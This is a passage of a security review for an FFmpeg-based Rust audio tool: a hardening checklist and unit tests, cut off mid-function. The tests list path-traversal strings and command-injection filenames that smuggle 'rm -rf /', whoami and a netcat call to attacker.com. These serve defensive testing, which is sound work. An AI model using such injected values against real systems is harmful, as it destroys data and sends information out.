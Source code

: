 ## 7. Security Best Practices Checklist

### Immediate Actions Required

- [ ] Replace string concatenation for shell commands with centralized escaping helper
- [ ] Validate and canonicalize paths before any file operations
- [ ] Add basic timeouts or exit checks to all process operations
- [ ] Use atomic operations or rename-to-trash before delete in cleanup tasks
- [ ] Implement RAII guards for resources that must be cleaned on drop

### Short-term Improvements (1-2 weeks)

- [ ] Add input sanitization layer for all user inputs and filenames
- [ ] Implement comprehensive logging for security events
- [ ] Add rate limiting for processing operations
- [ ] Create security test suite with fuzzing
- [ ] Document all security assumptions

### Long-term Goals (1-3 months)

- [ ] Migrate to ffmpeg-next for type-safe operations
- [ ] Implement sandboxing for FFmpeg processes
- [ ] Add cryptographic signatures for processed files
- [ ] Create security audit trail system
- [ ] Implement principle of least privilege

## 8. Testing Security Improvements

### Unit Tests for Security Functions

```rust
#[cfg(test)]
mod security_tests {
    use super::*;
    
    #[test]
    fn test_path_traversal_detection() {
        let validator = PathValidator::new();
        
        let malicious_paths = vec![
            Path::new("../../../etc/passwd"),
            Path::new("audio/../../../system.mp3"),
            Path::new("./../../sensitive.mp3"),
        ];
        
        for path in malicious_paths {
            assert!(validator.validate_path(path).is_err());
        }
    }
    
    #[test]
    fn test_command_injection_prevention() {
        let malicious_inputs = vec![
            "file'; rm -rf /; echo '.mp3",
            "audio$(whoami).mp3",
            "test`id`.mp3",
            "file\nfile /etc/passwd\n.mp3",
            "audio|nc attacker.com 1234.mp3",
        ];
        
        for input in malicious_inputs {
            let escaped = escape_ffmpeg_path(input);
            assert!(!escaped.contains('\'') || escaped.contains("\\'"));
```